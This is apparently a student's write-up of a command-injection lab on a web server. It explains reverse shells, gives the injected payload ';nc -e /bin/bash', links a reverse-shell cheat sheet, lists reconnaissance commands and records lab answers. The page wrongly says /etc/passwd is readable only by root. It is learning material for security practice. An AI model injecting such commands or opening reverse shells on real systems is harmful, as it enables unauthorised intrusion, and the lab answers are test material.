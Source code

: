 # The point

- spawn a reverse shell to become the user that the web server is running as.

:warning: create a remote shell connection but the target system initiates the connection back to the attackers machine.

- Attacker Listens: The attacker sets up a program on their own computer that listens for incoming connections on a specific port.
- Target Establishes Connection: The vulnerable code on the target system (like the one you provided) executes a command that creates a connection out to the attacker's machine and port.
- Shell Session: Once the connection is established, the attacker now has a shell session on the target system. This grants them access to issue commands and potentially compromise the system.

```
;nc -e /bin/bash
```

- Use netcat to connect to a port (attacker's machine) that's listening for incoming connections.
- Once connected, it executes the /bin/bash command on the server, giving the attacker a shell session.

# Reverse Shell Cheat Sheet

:warning: Content of this page has been moved to [InternalAllTheThings/cheatsheet/shell-reverse](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

- [Tools](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)
- [Reverse Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)
  - [Awk](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#awk)
  - [Automatic Reverse Shell Generator](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#revshells)
  - [Bash TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
  - [Bash UDP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-udp)
  - [C](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#c)
  - [Dart](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#dart)
  - [Golang](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#golang)
  - [Groovy Alternative 1](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy-alternative-1)
  - [Groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy)
  - [Java Alternative 1](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java-alternative-1)
  - [Java Alternative 2](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java-alternative-2)
  - [Java](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java)
  - [Lua](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#lua)
  - [Ncat](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ncat)
  - [Netcat OpenBsd](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd)
  - [Netcat BusyBox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
  - [Netcat Traditional](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-traditional)
  - [NodeJS](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs)
  - [OGNL](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ognl)
  - [OpenSSL](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl)
  - [Perl](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl)
  - [PHP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php)
  - [Powershell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
  - [Python](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
  - [Ruby](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ruby)
  - [Rust](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#rust)
  - [Socat](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat)
  - [Telnet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#telnet)
  - [War](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#war)
- [Meterpreter Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#meterpreter-shell)
  - [Windows Staged reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp)
  - [Windows Stageless reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-stageless-reverse-tcp)
  - [Linux Staged reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#linux-staged-reverse-tcp)
  - [Linux Stageless reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#linux-stageless-reverse-tcp)
  - [Other platforms](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#other-platforms)
- [Spawn TTY Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell)
- [References](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#references)

- Linux:
  whoami
  id
  ifconfig/ip addr
  uname -a
  ps -ef
  Windows

- Windows:
  whoami
  ver
  ipconfig
  tasklist
  netstat -an

[Question_1]

What strange text file is in the website root directory?
Answer: drpepper.txt

Explain: I use `pwd` to see what point working directory im in so im it var/www/html which is root folder then i use `ls` to list out all the file and the output:
css drpepper.txt evilshell.php index.php js

[Question_2]
I concatenate /etc/passwd using `cat /etc/passwd`
the /etc/passwd save the information about all the user on system (only root can access)
Output:
![Alt text](image.png)

[Question_3]
whoami: to see who are accessing the machine

Answer: www-data

[Question_4]
getent: to look up in user details on Linux
`getent passwd www-data`
![Alt text](image-1.png)

Answer: /usr/sbin/nologin

[Question_5]
`lsb_release -a` to check the ubuntu version.

Answer: 18.04.4

[Question_6]
`/etc/motd`: MOTD stands for Message of the Day. It's a common feature on computer systems that displays a message to users when they log in. The MOTD content is usually stored in a file named.

`/etc/update-motd.d`: This directory introduces a more dynamic approach to managing the MOTD. It contains executable shell scripts.

So the motd is a file and the update-motd.d is a folder

From the hint, we input in cat /etc/update-motd-d/00-header
Output:
![Alt text](image-2.png)
